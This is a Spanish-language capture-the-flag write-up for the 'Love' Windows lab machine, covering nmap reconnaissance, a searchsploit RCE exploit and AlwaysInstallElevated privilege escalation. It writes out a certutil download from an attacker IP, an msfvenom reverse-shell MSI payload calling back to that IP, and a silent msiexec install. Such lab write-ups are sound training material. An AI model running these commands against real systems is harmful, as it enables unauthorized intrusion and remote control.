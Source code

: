 # Love

**Sistema Operativo**: Windows

**Dificultad**: Fácil

**Técnicas Vistas**: Server Side Request Forgery (SSRF) / 
Exploiting Voting System / 
Abusing AlwaysInstallElevated (msiexec/msi file)

Te prepara para las **Certificaciones**: eJPT / 
eWPT / 
OSCP (Escalada)

![image](https://github.com/user-attachments/assets/feef1627-bc61-468d-ba86-5989e24871c5)<br><br>

# Reconocimiento


Utilizando `nmap` encontramos estos puertos abiertos:<br>

![image](https://github.com/user-attachments/assets/bab736ff-d081-4755-85d4-c6977f92a156)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br><br><br>

Encontramos un subdominio y dominio que lo ponemos en `/etc/hosts`<br><br>

![image](https://github.com/user-attachments/assets/440ea5df-5a7b-483f-b0e6-794ba236af27)<br><br>

# Explotación SSRF 

Tenemos las credenciales de `admin`<br>

![image](https://github.com/user-attachments/assets/7de4ae8b-1c76-4f3b-916e-f4e017cf77ce)<br><br>

Utilizando `searchsploit` vemos una autenticación RCE<br>

![image](https://github.com/user-attachments/assets/a397ba57-c4fb-4c0e-a0f6-b64b7a5b4853)<br><br>

Aplicamos estos cambios en el `exploit`<br>

![image](https://github.com/user-attachments/assets/04ea8ada-2237-4b1a-a559-3107e73685b6)

- `python3 exploit.py` -> Ganamos acceso<br><br>


# Escalada de privilegios

Nos descargamos el WinPEASx64.exe<br>

https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225<br><br>

### Transferir archivo

- `C:\Windows\Temp` -> directorio como "tmp"
- `mkdir prives` -> Crear directorio
- `cd prives` -> Entramos al directorio creado
- `python3 -m http.server 80` -> Abro puerto con el binario en linux
- `certutil.exe -f -urlcache -split http://10.10.14.55/winPeas.exe winPeas.exe` -> Me transfiero el winPeas.exe al windows
- `.\winPeas.exe systeminfo` -> ejecutar<br><br>

Si el `AlwaysInstallElevated` esta en 1, es vulnerable<br>


![image](https://github.com/user-attachments/assets/6ab88c52-2667-40a3-9339-49de361bcaf5)<br><br>

Creamos una reverse shell con `msfvenom`

- ` msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.55 LPORT=443 -f msi -o reverse.msi` -> Creamos el exploit<br>

Nos lo transferimos donde tenemos el `winPeas`

- `msiexec /quiet /qn /i reverse.msi`  -> Así lo ejecutamos<br><br>


Flag final:<br>

![image](https://github.com/user-attachments/assets/63613b84-4500-44b6-badd-025673b503b7)<br><br>
